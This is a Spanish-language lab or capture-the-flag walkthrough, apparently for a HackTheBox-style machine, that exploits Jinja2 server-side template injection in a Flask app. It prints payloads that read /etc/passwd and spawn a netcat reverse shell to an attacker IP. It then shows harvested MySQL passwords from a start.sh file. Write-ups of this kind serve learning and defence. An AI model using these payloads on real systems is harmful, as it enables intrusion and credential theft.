 Vemos que podemos crear etiquetas o comentarios. Vemos tambien que el `Wapallizer` nos reporta que estamos ante un `Flask`

# Server Side Template Injection (SSTI)
Cuando tenemos una aplicacion como `FLASK` corriendo es posible que se pueda injectar codigo de la siguiente forma `{{2*2}}` si al enviar este codigo la respuesta del lado del servidor vemos que cambia a `4` indica que puede ser `vulnerable a SSTI`

Sacamos el `Burpsuite` he interceptamos la peticion de crear una etiqueta nueva!! 
Vamos a hacer uso de esta pagina https://github.com/swisskyrepo/PayloadsAllTheThings
En la parte de SSTI vemos varios recursos entre ellos `Jinja2 - Read remote file`
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
y recibimos correctamente el archivo `/etc/passwd`
Tambien vemos que hay un recurso para un RCE `Jinja2 - Remote Code Execution`
`Exploit the SSTI by calling Popen without guessing the offset`
```bash
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("{x()._module.__builtins__['__import__']('os').popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.15.4 443 >/tmp/f"").read().zfill(417)}}{%endif%}{% endfor %}
```
Se ve que el simbolo & no le gustaba y lo url encodeamos y listo. Nos ponemos en una session de `nc -vlnp 443` y esperamos a recibir la conexion al tramitar desde el Repiter la pwticion Web con el RCE.

Una vez dentro, vemos que no tenemos una bash asique tiramos de `rlwrap para simular la tty`

Enumeramos el sistema ya que vemos que entramos como root en la ip `10.100.10.2` no en la de la maquina `10.10.10.96`

Encontramos una contraseña para el user `root` en la ruta `/app/`archivo`start.sh`:
```bash
dentro de la ip 10.100.10.2 atraves de 8080 gracias al SSTI 
cat start.sh
#!/bin/bash

docker run -d -v /connect/mysql:/var/lib/mysql --name ozdb \
--net prodnet --ip 10.100.10.4 \
-e MYSQL_ROOT_PASSWORD=SuP3rS3cr3tP@ss \
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \
-e MYSQL_DATABASE=ozdb \
-v /connect/sshkeys:/home/dorthi/.ssh/:ro \
-v /dev/null:/root/.bash_history:ro \
-v /dev/null:/root/.ash_history:ro \
-v /dev/null:/root/.sh_history:ro \
--restart=always \
mariadb:5.5
```
```bash
mysql_root = SuP3rS3cr3tP@ss
```
